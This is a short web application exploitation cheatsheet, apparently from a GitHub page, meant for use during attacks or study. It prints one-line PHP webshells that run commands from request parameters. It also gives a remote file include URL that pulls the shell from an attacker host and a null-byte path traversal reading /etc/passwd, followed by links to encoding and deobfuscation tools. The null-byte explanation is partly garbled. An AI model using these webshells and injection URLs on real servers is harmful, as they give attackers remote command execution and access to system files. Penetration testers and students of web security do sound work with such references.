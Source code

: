 # Web Application exploitation - a cheatsheet
This is a work in progress. Additions, suggestions and constructive feedback are welcome.
The purpose of these cheatsheets is to, essentially, save time during an attack and study session.


## WebShell Backdoors
Minimal php command shells
file cmd.php: PHP script text =>
```
<?php system($_GET['cmd']) ?>
```

or
```
<?php system($_REQUEST['cmd']); ?>
```
Example usage via Remote File Include (RFI):
```
http://<target-ip>/index.php?cmd=<command to execute>&page=http://<attacker-ip>/cmd.php
```
Null Bytes (‰00 - html code ampersand, hash 137, 00) may also assist in some cases:
```
http://<target-ip>/index.php?cmd=<command to execute>&page=http://<attacker-ip>/cmd.php
‰
e.g.
http://<attacker-ip>/index.php?system=../../../../../etc/passwd.html
```

http://stackoverflow.com/questions/3115559/exploitable-php-functions


------------------------------------------------------------------------------------------------------------------
#### Encoding and Decoding - for backdoors, injection, and (de)obfustication
```
http://www.asciitohex.com/
http://home.paulschou.net/tools/xlate/
http://www.idea2ic.com/PlayWithJavascript/hexToAscii.html
```

Burp Suite (Decoder module)
```
http://portswigger.net/burp/help/decoder.html
```

Decode base64 standard input
```
base64 -d
<paste base-64 encoded text>
^D
```

Javascript deobfustication
```
http://www.javascriptbeautifier.com/
http://jsbeautifier.org/
http://vitzo.com/en/tools/javascript/javascript-beautifier
```
